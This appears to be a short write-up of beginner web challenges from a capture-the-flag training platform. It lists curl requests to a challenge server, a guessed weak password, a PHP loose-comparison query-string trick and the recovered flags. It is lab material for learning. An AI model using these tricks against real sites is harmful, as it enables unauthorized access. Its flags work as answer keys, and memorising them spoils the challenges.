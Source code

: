 flag: `cyberpeace{bb43ef404e6e050d9a7b013262fa82df}`

### get_post

```shell
$ curl POST -d "b=2" "http://61.147.171.105:57486/?a=1"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>POST&GET</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />

</head>
<body>

<h1>请用GET方式提交一个名为a,值为1的变量</h1>

<h1>请再以POST方式随便提交一个名为b,值为2的变量</h1><h1>cyberpeace{ad6bd2612867a70492cf42d9fef1e327}</h1>
</body>
</html>

```

flag: `cyberpeace{ad6bd2612867a70492cf42d9fef1e327}`

### weak_auth

密码 123456

flag: `cyberpeace{f94b3923f21b643912ef43a012955bea}`

### simple_php

```
http://61.147.171.105:53421/?a=[]&b=1235a
```

flag: `Cyberpeace{647E37C7627CC3E4019EC69324F66C7C}`

### Training-WWW-Robots

flag: `cyberpeace{c4cc8324c5612db50f8cf412c9f80738}`

### baby_web

```shell
$ curl -i "http://61.147.171.105:53670/"
HTTP/1.1 302 Found
Date: Fri, 27 Dec 2024 06:37:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.21
FLAG: flag{very_baby_web}
Location: 1.php
Content-Length: 17
Content-Type: text/html; charset=UTF-8

Flag is hidden!

```
